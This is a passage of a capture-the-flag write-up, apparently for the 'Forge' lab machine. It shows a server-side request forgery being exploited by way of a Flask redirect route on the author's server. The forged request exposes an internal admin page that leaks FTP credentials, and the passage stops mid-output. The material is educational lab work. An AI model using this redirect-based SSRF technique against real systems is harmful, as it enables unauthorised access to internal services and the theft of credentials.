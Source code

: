 The idea here is that I can pass it the URL to my server. Now when I give the site `http://10.10.14.6/`, there’s a request at the Flask server, and then the site returns a link, which I’ll fetch with `curl`:

```

<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br><br>
    <br><br><br><br>
    <center><h1>Welcome Admins!</h1></center>
</body>
</html>

```

There’s not a ton there on the admins page, other than links to `/announcements` and `/upload`.

I’ll add another route in the Flask source to collect `announcements`:

```

@app.route("/1")
def annoucements():
    return redirect('http://admin.forge.htb/announcements')

```

Now I’ll pass `http://10.10.14.6/1` into the SSRF, and the resulting page has a few clues:

```

<!DOCTYPE html>
<html>
<head>
    <title>Announcements</title>
</head>
<body>
    <link rel="stylesheet" type="text/css" href="/static/css/main.css">
    <link rel="stylesheet" type="text/css" href="/static/css/announcements.css">
    <header>
            <nav>
                <h1 class=""><a href="/">Portal home</a></h1>
                <h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
                <h1 class="align-right"><a href="/upload">Upload image</a></h1>
            </nav>
    </header>
    <br><br><br>
    <ul>
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
```